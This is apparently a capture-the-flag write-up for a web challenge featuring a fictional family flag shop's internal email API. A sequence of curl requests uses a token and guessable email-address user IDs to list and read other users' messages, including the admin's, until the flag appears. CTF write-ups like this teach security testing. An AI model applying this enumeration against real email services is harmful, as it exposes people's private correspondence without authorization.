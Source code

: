 - I created a user boblimes@mompopsflags.com with password bob

- We find that there's a js file called email.js that seems to be contacting different api endpoints to retrieve our mail

- The token being used can be found in Inspect Element > Application > Local Storage
`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/link?token=55b0555a55564a72e59c42574717455525f401751c5b`
`{"success":true,"uid":"boblimes@mompopsflags.com"}`

- We discover that the id used is just the email for each user, so we can abuse it to start list other people's emails
`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/listemails?uid=boblimes@mompopsflags.com`
`{"success":true,"messages":{"count":2,"ids":{"Ym9ibGltZXMwMTY0NTkzNDI0MTc4Mw==":{"subject":"Welcome to Mom & Pops Internal Email System - Please Read Me","sender":"it@mompopsflags.com"},"Ym9ibGltZXMxMTY0NTkzNDI0MTc4Mw==":{"subject":"[URGENT - UPDATE] Security Issue Discovered - Setting email service to read-only temporarily.","sender":"it@mompopsflags.com"}}}}`

`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/listemails?uid=it@mompopsflags.com`
`{"success":true,"messages":{"count":2,"ids":{"b94d27b9934d3e08a52e52d7da7dabfac484efe37a5380ee9088f7ace2efcde9":{"subject":"hello world","sender":"testacc@mompopsflags.com"},"834d04aab30814b14b3af169af7b3614a68e7e9ed11940e6ae9c3cc84904484e":{"subject":"Password has been forgotten HELP","sender":"admin@mompopsflags.com"}}}}`

- There's an account named `admin@mompopsflags.com`, so let's see its emails
`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/listemails?uid=admin@mompopsflags.com`
`{"success":true,"messages":{"count":2,"ids":{"c6b055378e5ccd97873565152bfcf6e4c649e4c221f92d7ce169ab1b398f12a0":{"subject":"Re: Password has been forgotten HELP","sender":"it@mompopsflags.com"},"d1f592f82d64ab275f7661c4e3d40cd3860c7381e2fd34295fec02dd4b41987f":{"subject":"[Urgent] New Flag Shipment","sender":"friends@omniflag.net"}}}}`

- Now we can use the api endpoint used in readEmail() to read the email using the uid and mid (mail id). Note: `&` is a special character in bash, so we need to escape it with `\`
`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/reademail?uid=admin@mompopsflags.com\&mid=c6b055378e5ccd97873565152bfcf6e4c649e4c221f92d7ce169ab1b398f12a0`
`{"success":true,"date":"1639698318174","message":"Hi Pop,\n\nI can reset your password, but it cannot be reset to any of the passwords that you have sent me.\n\nI cannot use passwords that were publicly sent over the internet, since it is highly likely that they could be breached. However, I do admit that the passwords I've been giving you are probably too complicated. I can make a simpler password that is equally secure, but much easier for you and Mom to remember.\n\nI can drive down to the shop this Saturday to tell you your new password in-person. Sorry that you will have to wait to log into your other devices.\n\nTalk to you soon,\nEmilia\n\nPS. My parents might be there as your shop is between destinations for us.","sender":"it@mompopsflags.com","subject":"Re: Password has been forgotten HELP"}`

- Let's view the other email sent to the admin account
`curl -X POST http://srv2.momandpopsflags.ca:7633/api/v0/reademail?uid=admin@mompopsflags.com\&mid=d1f592f82d64ab275f7661c4e3d40cd3860c7381e2fd34295fec02dd4b41987f`
`{"success":true,"date":"1639798225627","message":"Hello Mom and Pop,\n\nWe are pleased to hear that flag sales have been growing at an exponential rate. As previously discussed, this is one of the benefits to joining our company.\n\nWe wish to inform you that a new shipment of flags will be coming in very soon.\n\nTo get to the point, one of the flags that we have obtained is:\n - magpie{@u+h0r1z@+10n_2_l@x}\n\nYou likely understand the value of these flags and understand the gravity of the situation.\n\nGreat sacrifices have been made to retrieve these flags, and unfortunately we did not leave unnoticed. With the great notoriety these flags pocess, we must ask you to store these flags for us. We apologize for any inconvenience this may bring, but refusal is would be a breach in our contract.\n\nPlease have your IT intern develop a secure storage system for these flags. The provided flag should be more than enough for her to work with.\n\nThank you for your compliance.\n\nSincerely,\nYour friends at Omni-Flag\n\nOmni-Flag: A Family Company","sender":"friends@omniflag.net","subject":"[Urgent] New Flag Shipment"}`

- Flag is `magpie{@u+h0r1z@+10n_2_l@x}`

